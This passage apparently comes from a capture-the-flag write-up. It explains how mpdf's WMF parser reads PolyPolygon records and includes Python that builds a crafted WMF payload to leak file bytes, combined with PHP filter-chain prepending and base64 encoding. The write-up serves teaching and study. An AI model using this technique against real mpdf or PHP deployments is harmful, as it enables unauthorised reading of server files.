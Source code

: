 The code here simply unpacked `size - 3` shorts from the parameters, parsing them out into:

<table>
    <tr>
        <th>No. Polygons</th>
        <th>No. Points</th>
        <th>X</th>
        <th>Y</th>
    </tr>
    <tr>
        <td></td>
        <td></td>
        <td colspan="2">Per Point</td>
    </tr>
    <tr>
        <td></td>
        <td colspan="3">Per Polygon</td>
    </tr>
</table>


If we had 1 polygon, this would make our life a whole lot easier - so in our data we prefixed we also set that.

We also had to set the size of our canvas through `SetWindowOrg` and `SetWindowExt` functions, which were also placed in our prefixed data.


We then put together the following code to generate payloads for us, so we could vary the number of points easily.
We need to be able to vary the no. points as we couldn't easily guess the number of bytes we need to consume for the flag, so this would be a game of trial and error.
```py
n_points = 20 # No. x/y point pairs to include

sz = (n_points * 2 + 6).to_bytes(4, byteorder='little')
n = (n_points).to_bytes(2, byteorder='little')

pay = b"\xd7\xcd\xc6\x9a" + # Magic Bytes
    (b"A" * 36) + # Padding to sufficient lenggth
    # [ 5 bytes size ][ func ][x,y,w,h = 0x7f]
    b"\x05\x00\x00\x00\x0b\x02\x7f\x7f\x7f\x7f" + # Set canvas origin (x/y)
    b"\x05\x00\x00\x00\x0c\x02\x7f\x7f\x7f\x7f" + # Set canvas size (w/h)
    sz + # Size of PolyPolygon message
    b"\x38\x05" + # PolyPolygon Func
    b"\x01\x00" + # 1 polygon
    n + # of N points
    b"AA" # Padding to make payload size multiple of 3
```

Circling back to our php filter chains, we could use them to [prepend data](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) to the original source which we are trying to read.

To ensure we didn't accidently call any functions in over-hanging records, we base64-encoded all the data, which would ensure there are no bytes in the range `0x00 - 0x0F` which would be considered as functions in mpdf, as all the supported functions in mpdf's Wmf parser require one of these lower values.
